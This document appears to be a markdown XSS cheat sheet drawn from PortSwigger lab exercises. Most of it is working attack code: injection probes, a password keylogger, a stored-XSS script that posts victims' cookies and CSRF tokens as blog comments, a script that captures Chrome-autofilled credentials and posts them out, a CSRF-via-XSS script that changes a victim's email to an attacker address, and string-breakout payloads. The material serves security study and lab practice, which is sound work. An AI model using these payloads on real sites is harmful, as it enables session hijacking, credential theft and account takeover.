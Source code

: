 
```html
"><h1>test</h1>
```

```html
'+alert(1)+
'```

```html
"onmouseover="alert(1)
```

```html
http://"onmouseover="alert(1)
```  
___
Keylogger

```javascript
t=""; $('input[type="password"]').onkeypress = function (e) { t+=e.key; console.log(t); localStorage.setItem("pw", t); } 
```
___

Fetch users' cookies and post them on a blogpost (PortSwigger)
```html
<script>
document.body.onload = function() {
    // GET COOKIES
    var cookies = document.cookie;
    // GET CSRF TOKEN FROM HTML
    var csrf = document.getElementsByName("csrf")[0].defaultValue;
    // GET DOMAIN
    var domain = document.domain;
    // STORE VALUES NEEDED TO POST THE SCRIPT
    var details = {
        'csrf': csrf,
        'postId': 2,
        'comment': cookies,
        'name': 'victim',
        'email': 'victim@victim',
        'website': 'http://hack'
    };
    // PREPARE AN EMPTY ARRAY WHICH WILL BE FILLED WITH ENCODED VALUES FROM details
    var formBody = [];
    // ENCODED IN TURN EACH KEY/VALUE PAIR FROM DICTIONARY details
    for (var property in details) {
        var encodedKey = encodeURIComponent(property);
        var encodedValue = encodeURIComponent(details[property]);
        // ADD EACH PAIR TO THE ARRAY AND "JOIN" KEYS AND VALUES IN A STRING CONCATENATION
        formBody.push(encodedKey + "=" + encodedValue);
    }
    // CONCAT ARRAY VALUES WITH & CHAR
    formBody = formBody.join("&");
    // POST THE COMMENT
    fetch("https://"+domain+"/post/comment", {
        method: "POST",
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: formBody
    });
}
</script>
```
___

Capture autofill credentials (chrome) (PortSwigger XSS Lab)

```html
<section>
    <form class=login-form method=POST action=/login>
        <label>Username</label>
            <input required type=username name="username" id="user2hack">
        <label>Password</label>
            <input required type=password name="password" id="psw2hack">
            <button class=button type=submit> Log in </button>
    </form>
</section>


<script>
// FUNCTION TO GRAB USERNAME AND PASSWORD INPUT FIELDS VALUES
function grabUserPsw(){
    var username = document.getElementById("user2hack").value;
    var password = document.getElementById("psw2hack").value;
// RETURN VALUES AS ARRAY
    return [username, password]
};

// FUNCTION TO POST CREDENTIALS AS COMMENT ON ANOTHER PAGE postId=2
function postCreds(){
// EXECUTE grabUserPsw FUNCTION
    var creds = grabUserPsw();
    var username = creds[0];
    var password = creds[1];
    var credentials = "username:" + username + " - password:" + password;
    var domain = document.domain;
    var csrf = document.getElementsByName("csrf")[0].defaultValue;
    var details = {
        "csrf" : csrf,
        "postId" : 2,
        "comment" : credentials,
        "name" : "victim",
        "email" : "test@test.test",
        "website" : "http://victim"
    };
// PREPARE FORMDATA ARRAY WITH URL ENCODED VALUES AND CONCAT THEM BY CHAR '&'
    formBody = [];
    for (property in details){
        var encodedKey = encodeURIComponent(property);
        var encodedValue = encodeURIComponent(details[property]);
        formBody.push(encodedKey + "=" + encodedValue)
    };
    formBody = formBody.join("&");

    fetch("https://"+domain+"/post/comment", {
        method : "POST",
        headers : {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body : formBody
    });
};
// WAIT FOT DOM DOCUMENT TO BE LOADED AND ATTACH 'onChange' EVENT TO THE PASSWORD INPUT FIELD
// CHROME AUTOFILL TAKES EFFECT ONLY AFTER A USER INTERACTION IN THE WINDOW (CLICK, KEYPRESS...)
document.body.onload = function(e){
    document.getElementById("psw2hack").addEventListener("change", function(e){
        postCreds();
    });
// FORCE MOUSE CLICK ON USERNAME INPUT FIELD TO TRIGGER THE LISTENER ABOVE
    document.getElementById("user2hack").click()
}
</script>
```

_______

Perform a Cross-Site Request Forgery attacks via Stored XSS to change email fo another user (PortSwigger Lab)

```html
    <script>
    function parseText(text){
        // PREPARE PATTERN FOR CSRF TOKEN EXTRACTION
        const re = new RegExp(/value="([A-Z,a-z,0-9]+)"/);
        // LOOK FOR CSRF TOKEN
        const csrfArray = re.exec(text);
        var csrf = csrfArray[1];
        return csrf
    };

    function grabCsrf(url){
        // MAKE HTTP GET REQUEST FOR MYACCOUNT_URL
        req = new XMLHttpRequest;
        req.open("GET", url, false);
        req.send();
        const text = req.responseText;
        // PASS THE TEXT OUTPUT OF THE BODY TO THE parseText() FUNCTION
        csrf = parseText(text);
        return csrf
    };

    function changeEmail(){
        // VARIABLES DECLARATION
        var domain = document.domain;
        var domain_url = 'https://'+domain;
        var changeEmail_url = domain_url + '/my-account/change-email';
        var myAccount_url = domain_url + '/my-account';

        // GRAB AND STORE THE CSRF TOKEN
        const csrf = grabCsrf(myAccount_url)

        // CREATE VARIABLES TO SEND ALONG THE REQUEST TO CHANGE EMAIL
        var params = {
            'email' : 'youvebeenhacked@attacker.hack',
            'csrf' : csrf
        };

        var formBody = [];
        // URL ENCODING
        for (property in params) {
            var encodedKey = encodeURIComponent(property);
            var encodedValue = encodeURIComponent(params[property]);
            formBody.push(encodedKey + "=" + encodedValue)
        };
        formBody = formBody.join("&");

        fetch(changeEmail_url, {
            method : 'POST',
            headers : {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body : formBody
        });
    };

document.body.onload = changeEmail()
</script>
```

_____

**Javascript context**  

No filter on user input. Close the script and cause error with non-existant filename to trigger onerror event.

```html
<script>
var searchTerms = '</script><img src=1 onerror=alert(document.domain)>';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Angle brackets HTML-encoded on user input. Close the string using a single quote, call the event and comment out the rest OR insert the event between single quotes to restore the syntax.

```html
<script>
    var searchTerms = '';alert(1)//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
```html
<script>
    var searchTerms = ''-alert(document.domain)-'';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Angle brackets and double quotes HTML-encoded and single quotes escaped.  
Backslash added to escape the single quote is not escaped so adding a backslash in the payload does work because escapes the filter backslash.  
In this way the single quote is not escaped and can be used to close the input string. Comment out the rest.

```html
<script>
    var searchTerms = '\\';alert(document.domain)//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```